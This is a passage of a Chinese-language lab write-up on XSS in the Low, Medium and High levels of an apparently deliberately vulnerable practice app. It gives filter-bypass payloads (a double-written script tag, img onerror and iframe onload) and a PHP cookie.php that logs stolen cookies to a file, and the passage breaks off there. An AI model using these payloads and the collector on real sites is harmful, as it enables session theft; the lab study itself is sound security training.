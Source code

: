 ![image-20211106200737138](https://cdn.jsdelivr.net/gh/munian08/drawingbed@main/img/202207031958140.png)

成功弹窗，再查看源代码，可以发现注入成功：

![image-20211106201342657](https://cdn.jsdelivr.net/gh/munian08/drawingbed@main/img/202207031958945.png)



#### （2）Medium

先看源码，medium相较于low增加了`str_replace()`函数，将`<script>`替换为空，可以通过双写来绕过

![image-20211106224807795](https://cdn.jsdelivr.net/gh/munian08/drawingbed@main/img/202207031958951.png)

输入`<sc<script>ript>alert(1)</script>`，成功弹窗：

![image-20211106225219237](https://cdn.jsdelivr.net/gh/munian08/drawingbed@main/img/202207031958679.png)



#### （3）High

##### 1、弹窗

看源码，High中用`preg_replace()`函数通过正则表达式进行匹配和替换。所以常规的双写绕过和大小写绕过就失败了。

![image-20211106225418451](https://cdn.jsdelivr.net/gh/munian08/drawingbed@main/img/202207031958271.png)

但是可以通过其他非`<script>`标签注入XSS代码，比如：

`<img src=1 onerror=alert(1)>`

`<iframe onload=alert(1)>`

……

运行截图：

![image-20211106230056291](https://cdn.jsdelivr.net/gh/munian08/drawingbed@main/img/202207031958273.png)



##### 2、cookie

首先在自己的服务器中创建`cookie.php`文件，用来保存传过来的cookie。这里服务器用的是第一节课搭建的win10虚拟机中的C:\AppServ\www。

![image-20211106234449134](https://cdn.jsdelivr.net/gh/munian08/drawingbed@main/img/202207031958722.png)

```php
<?php
  $cookie = $_GET["cookie"];
  echo "Your cookie:";
  echo $cookie;
  $log = fopen("cookie.txt","a");
  fwrite($log,$cookie."\n");
  fclose($log);
?>
```
